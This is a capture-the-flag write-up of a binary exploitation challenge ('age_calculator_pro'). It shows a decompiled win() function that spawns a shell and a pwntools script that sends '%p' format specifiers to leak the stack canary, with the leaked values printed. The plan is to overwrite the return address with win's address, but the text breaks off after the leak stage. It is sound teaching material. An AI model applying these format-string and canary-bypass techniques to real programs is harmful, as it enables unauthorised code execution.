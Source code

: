 To get the flag, we want to call the win function to spawn a shell, but we can't call it directly because it is never called by main. So we have to exploit it somehow .

```c
unsigned __int64 win()
{
  char *envp; // [rsp+8h] [rbp-28h] BYREF
  char *argv[3]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  argv[0] = "/bin/sh";
  argv[1] = 0LL;
  envp = 0LL;
  execve("/bin/sh", argv, &envp);
  return v3 - __readfsqword(0x28u);
}
```

## Plan

The plan will be this: First, we will insert some format specifiers to try to leak the canary. After that, we will grab it and overwrite the rip with the address of win.

We will write a python script to automate things and do it a little faster. We will insert some "%p" specifiers, which is for printing the address of pointers. We are trying to find the canary. Most of the time the canary address will end with "00". So that is what are we looking for. We will print the leaked values and attach gdb to analyze them.

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('age_calculator_pro', checksec=False)
p = process()
#context.log_level = 'debug'

frmt_string = b'|%p' * 20

p.sendlineafter(b'?', frmt_string)
p.recvline() # empty line
leak = p.recvline().split(b'|')
info(leak)
raw_input('gdb')
```

```shell
┌──(vein㉿vein)-[~/sec/CTF_OliCyber.IT/pwn_age_calculator_pro]
└─$ ./exploit.py
[+] Starting local process '/home/vein/sec/CTF_OliCyber.IT/pwn_age_calculator_pro/age_calculator_pro': pid 50583
[*] [b'', b'0x7fe36805ab23', b'(nil)', b'0x7fe36805aaa0', b'(nil)', b'(nil)', b'(nil)', b'(nil)', b'0x257c70257c70257c', b'0x7c70257c70257c70', b'0x70257c70257c7025', b'0x257c70257c70257c', b'0x7c70257c70257c70', b'0x70257c70257c7025', b'0x257c70257c70257c', b'0x70257c70', b'(nil)', b'0x24d6f325ad209a00', b'0x1', b'0x7fe367eae6ca', b"(nil), what's your birth year?\n"]
gdb
```
